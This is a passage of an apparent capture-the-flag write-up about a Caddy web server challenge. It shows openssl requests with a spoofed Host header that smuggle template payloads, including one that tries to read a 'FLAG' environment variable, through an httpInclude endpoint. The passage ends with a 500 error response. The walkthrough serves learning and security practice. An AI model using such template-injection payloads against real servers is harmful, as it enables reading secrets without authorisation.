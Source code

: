 Lets make a request to the /headers endpoint, and see what headers are returned (this is request is made with openssl to bypass the TLS cert checking):
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
ip: {{.ClientIP}}


```
This request is sent to the server, and the server responds with the following:
```
{
  "Ip": [
    "{{.ClientIP}}"
  ]
}
```

We can see that our template was not processed, and was returned to us as is. This is because the mustToPrettyJson function does not process templates.

That leaves us with the /fetch endpoint. This endpoint uses the httpInclude function, which includes the response from another endpoint in the response. Lets hit the /headers enpoint through this endpoint to see if we can get it to process the templates.
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
ip: {{.ClientIP}}


```

This request is sent to the server, and the server responds with the following:
```
{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Ip": [
    "172.18.0.1"
  ]
}
```

We can see that the request was processed, and the template was replaced with the IP address of the server. This is a good sign, as it means that the httpInclude function does process templates. (Upon further testing, it seems that the httpInclude function processes all of the templates in whatever it recieves from the endpoint it is including).

Lets try to exploit this by including the /headers endpoint in the /fetch endpoint, and passing it a template that will call the env function. 
```
openssl s_client -connect 127.0.0.1:443 -servername public.caddy.chal-kalmarc.tf -quiet  
GET /fetch/headers HTTP/1.1          
Host: private.caddy.chal-kalmarc.tf
exploit: {{env "FLAG"}}


```
response:
```
HTTP/1.1 500 Internal Server Error
```
